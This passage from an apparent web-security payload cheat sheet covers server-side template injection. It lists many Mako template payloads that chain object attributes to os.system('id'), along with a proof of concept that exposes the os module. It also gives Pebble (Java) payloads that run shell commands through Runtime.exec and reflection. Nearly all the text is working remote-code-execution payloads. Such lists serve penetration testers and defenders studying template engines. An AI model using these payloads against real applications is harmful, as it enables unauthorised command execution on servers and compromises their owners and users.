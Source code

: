 ```python
${self.attr._NSAttr__parent.module.cache.compat.inspect.os.system("id")}
${self.template._mmarker.module.runtime.exceptions.util.os.system("id")}
${self.template.module.filters.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.template.module.runtime.util.os.system("id")}
${self.context._with_template._mmarker.module.cache.util.os.system("id")}
${self.template.module.runtime.exceptions.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.filters.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.compat.inspect.os.system("id")}
${self.context._with_template.module.cache.compat.inspect.os.system("id")}
${self.module.runtime.exceptions.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.exceptions.util.os.system("id")}
${self.context._with_template._mmarker.module.runtime.util.os.system("id")}
${self.context._with_template.module.filters.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.exceptions.util.os.system("id")}
${self.template.module.runtime.exceptions.traceback.linecache.os.system("id")}
```

PoC :

```python
>>> print(Template("${self.module.cache.util.os}").render())
<module 'os' from '/usr/local/lib/python3.10/os.py'>
```

Source [@podalirius_](https://twitter.com/podalirius_) : [https://podalirius.net/en/articles/python-context-free-payloads-in-mako-templates/](https://podalirius.net/en/articles/python-context-free-payloads-in-mako-templates/)


---

## Pebble

[Official website](https://pebbletemplates.io/)
> Pebble is a Java templating engine inspired by [Twig](./#twig) and similar to the Python [Jinja](./#jinja2) Template Engine syntax. It features templates inheritance and easy-to-read syntax, ships with built-in autoescaping for security, and includes integrated support for internationalization.

### Pebble - Basic injection

```java
{{ someString.toUPPERCASE() }}
```

### Pebble - Code execution

Old version of Pebble ( < version 3.0.9): `{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}`.

New version of Pebble :

```java
{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```

